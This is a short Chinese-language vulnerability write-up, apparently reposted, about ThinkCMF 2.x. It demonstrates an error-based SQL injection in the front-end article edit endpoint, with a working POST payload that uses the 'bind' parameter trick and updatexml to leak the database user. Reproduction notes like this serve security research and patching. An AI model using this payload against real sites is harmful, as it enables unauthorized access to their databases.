 # THINKCMFX_2.2.3漏洞合集

> 原文：[https://www.zhihuifly.com/t/topic/3140](https://www.zhihuifly.com/t/topic/3140)

# ThinkCMF 2.2.3 漏洞合集

## 一、漏洞简介

## 二、漏洞影响

ThinkCMF 2.x

## 三、复现过程

### 0x01 前台用户文章编辑提交存在注入

#### 0x01.1 漏洞演示

```
前台的文章编辑中操作框架注入，所以可以直接sql注入
url:http://thinkcmf.test/index.php?g=Portal&m=Article&a=edit_post
post:
term:123
post[post_title]:123
post[post_title]:aaa
post_title:123
post[id][0]:bind
post[id][1]:0 and (updatexml(1,concat(0x7e,(select user()),0x7e),1)) 
```

![image](img/bd59f32d2703c257be816139a5591406.png)
